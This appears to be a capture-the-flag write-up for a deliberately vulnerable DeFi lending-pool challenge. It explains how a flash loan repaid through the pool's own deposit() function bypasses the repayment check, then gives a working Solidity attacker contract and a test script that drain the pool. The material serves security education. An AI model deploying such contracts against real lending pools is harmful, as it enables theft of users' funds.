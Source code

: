 # Side-Entrance

## Introduction
The goal of this box is to siphon 1000ETHs in an existing lending pool.

## Code Breakdown
Similiar to Truster box, it only has 1 smart contract ***SideEntranceLenderPool.sol***.
Let's start by looking at the variables.
```
using Address for address payable;
mapping (address => uint256) private balances;
```
The address variable uses openzeppelin library to offer more functions.
Reference: <https://docs.openzeppelin.com/contracts/3.x/api/utils#Address>

Whereas, a simple hashmap is made for ***balances*** where each address contains *x* amount of tokens in integer format.
Reference: <https://medium.com/upstate-interactive/mappings-in-solidity-explained-in-under-two-minutes-ecba88aff96e>

The first function is an interface. It is empty and it contains an ***execute()*** function.
```
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}
```

The next function is ***desposit***.
It is simple where it stores the value directly into the hashmap.
```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Next, a ***withdraw()*** function is created for users to withdraw their tokens out to their wallet. Even though it does not have any reentrancy guard, it follows the best practice outlined by Solidity documentation - [Checks-Effect-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.16/security-considerations.html#use-the-checks-effects-interactions-pattern).

```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```

Lastly, ***flashLoan(uin256 amount)*** function is created. 
As usual, it checks if the pool have sufficient ETH for borrowing.
```
uint256 balanceBefore = address(this).balance;
require(balanceBefore >= amount, "Not enough ETH in balance");
```

Next, it executes an interface function .
```
IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();
```

Lastly, it checks if the loan is returned to the lending pool.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

## Hints
First and foremost, there are two pool of funds - lending pool and individual balance pool. Both are identified based on their address. Here's the problem, the lending pool and individual balance pool have overlaps. 

Consider this scenario:
A lending pool has an address.
Since it's an address, it have an individual lending balance pool too.
Let's assign 10 ETH to the lending pool. Notice that the individual Balance pool is 0.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacler Balance |
|------|------|------|------|
| 10 ETH | 0 ETH | 0 ETH | 0 ETH |

This essentially means ```address(this).balance != balances(address(this))```.
Here's the loophole, if we ***deposit*** 10 ETH to the *Lending Individual Balance*, the *Lending Pool* will still reflect 10 ETH as the ETH was not transferred away from the *Lending Pool*. However, the function will add 10 ETH into the hashmap which will increase *Lending Individual Balance* by 10 ETH. Thus, both *Lending Pool* and *Lending Individual Balance* will have 10 ETHs respectively. 

```
function deposit() external payable {
    balances[msg.sender] += msg.value;
}
```

Understanding this concept, we can also bypass the final check in the ***flashLoan*** function as ***address(this).balance*** refers to *Lending Pool*.
```
require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
```

The result after flashLoan should look like this.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 10 ETH | 10 ETH | 0 ETH | 0 ETH |

Next, we'll withdraw ETHs with the function ***withdraw()***. The function will remove all ETHs from *Lending Individual Balance* and transfer ETHs from *Lending Pool* to ***msg.sender***. ***msg.sender*** should be coming from *Attacker Balance Pool*.
Note: You may be thinking, ***Address.sol*** requires 2 parameters for the function ***sendValue*** yet I only see 1. This should clarify any doubts. ```payable(msg.sender).sendValue(amountToWithdraw);``` is the same as ```Address.sendValue(payable(msg.sender), amountToWithdraw);```
```
function withdraw() external {
    uint256 amountToWithdraw = balances[msg.sender];
    balances[msg.sender] = 0;
    payable(msg.sender).sendValue(amountToWithdraw);
}
```
Using that function should result in this.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 0 ETH | 0 ETH | 10 ETH | 0 ETH |

Now, we'll shift the 10 ETHs from *Attacker Balance Pool* to *Attacker Balance* with a simple transaction which will yield the final result.

| Lending Pool | Lending Individual Balance | Attacker Balance Pool | Attacker Balance |
|------|------|------|------|
| 0 ETH | 0 ETH | 0 ETH | 10 ETH |


## Solutions
Following the hints above, your smart contract should look similar to this.
```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
import "@openzeppelin/contracts/utils/Address.sol";
import "../side-entrance/SideEntranceLenderPool.sol";

/**
 * @title SideEntranceAttacker
 * @author BingleBangle-BH's attacker contract
 */

 contract SideEntranceAttacker{
    using Address for address payable;
    SideEntranceLenderPool public immutable pool;

    constructor (SideEntranceLenderPool _pool){
        pool = SideEntranceLenderPool(_pool);
    }

    function execute() public payable{
        pool.deposit{value: msg.value}();
    }

    function stealFunds() external{
        pool.flashLoan(address(pool).balance);
        pool.withdraw();
        address _owner = msg.sender;
        payable(_owner).sendValue(address(this).balance);
    }

    receive () external payable {}
 }
```

Here's the javascript
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    const SideEntranceAttack = await ethers.getContractFactory('SideEntranceAttacker', attacker);
    this.attackpool = await SideEntranceAttack.deploy(this.pool.address);
    await this.attackpool.stealFunds();
});
```
## Recommendations
Do not use allow two pools of funds to exist in a single smart contract. Use openzeppelin libraries such as[ERC20](https://docs.openzeppelin.com/contracts/4.x/erc20) to manage the funds.
